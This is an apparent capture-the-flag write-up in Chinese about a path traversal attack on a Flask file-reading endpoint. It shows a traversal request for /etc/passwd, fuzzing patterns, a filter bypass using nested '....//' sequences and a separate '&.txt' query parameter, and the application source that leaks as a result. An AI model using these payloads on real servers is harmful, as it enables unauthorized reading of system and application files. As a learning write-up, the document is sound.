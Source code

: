 第一个链接进行了目录遍历:

```
[http://66.172.33.148:8008/check_perm/readable/?file=../../../../../../etc/passwd](http://66.172.33.148:8008/check_perm/readable/?file=../../../../../../etc/passwd)
```

然而，没有任何有用的收获。第二个链接是文件打开器。我试图模糊输入:

```
?file=[FUZZ]public.txt[FUZZ]
```

模糊结果:

1.  `../`被替换为空值(`../public.txt`返回内容)
2.  文件应该以`.txt`结尾

我试过了:

```
....//.txt
```

得到不同的错误(500)。为了绕过`.txt`，我尝试了以下方法:

1.  空字节
2.  新行/其他空白
3.  参数污染

一无所获。下面我花了一些时间，请求/回应如下:

```
?file=....//public.txt.txt -> security
?file=....//public.py.txt  -> 500
```

为什么第一个链接返回安全？已经被`.txt`结束了，应该没问题了。结论:`.txt`应该是参数|查询字符串的最后一部分。所以:

```
?file=....//&.txt
```

得了 500。过滤器被绕过。快速模糊:

```
?file=....//[FUZZ]&.txt
```

透露了`app.py`:

```
from flask import Flask

def create_app():
    """Construct the core application."""
    app = Flask(__name__, instance_relative_config=False)

    with app.app_context():
        # Imports
        **from . import api** return app
```
